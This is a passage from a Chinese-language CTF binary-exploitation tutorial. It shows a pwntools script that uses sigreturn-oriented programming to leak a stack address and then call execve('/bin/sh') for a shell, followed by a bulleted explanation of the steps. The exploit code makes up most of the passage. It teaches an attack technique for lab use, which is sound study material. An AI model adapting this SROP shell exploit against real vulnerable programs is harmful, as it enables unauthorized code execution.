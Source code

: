 ```python

## modify the return addr to start_addr+3
## so that skip the xor rax,rax; then the rax=1
## get stack addr
sh.send('\xb3')
stack_addr = u64(sh.recv()[8:16])
log.success('leak stack addr :' + hex(stack_addr))

## make the rsp point to stack_addr
## the frame is read(0,stack_addr,0x400)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_read
sigframe.rdi = 0
sigframe.rsi = stack_addr
sigframe.rdx = 0x400
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret
payload = p64(start_addr) + 'a' * 8 + str(sigframe)
sh.send(payload)

## set rax=15 and call sigreturn
sigreturn = p64(syscall_ret) + 'b' * 7
sh.send(sigreturn)

## call execv("/bin/sh",0,0)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = stack_addr + 0x120  # "/bin/sh" 's addr
sigframe.rsi = 0x0
sigframe.rdx = 0x0
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret

frame_payload = p64(start_addr) + 'b' * 8 + str(sigframe)
print len(frame_payload)
payload = frame_payload + (0x120 - len(frame_payload)) * '\x00' + '/bin/sh\x00'
sh.send(payload)
sh.send(sigreturn)
sh.interactive()
```

其基本流程为

- 读取三个程序起始地址
- 程序返回时，利用第一个程序起始地址读取地址，修改返回地址(即第二个程序起始地址)为源程序的第二条指令，并且会设置rax=1
- 那么此时将会执行write(1,$esp,0x400)，泄露栈地址。
- 利用第三个程序起始地址进而读入payload
- 再次读取构造sigreturn调用，进而将向栈地址所在位置读入数据，构造execve('/bin/sh',0,0)
- 再次读取构造sigreturn调用，从而获取shell。

### 题目
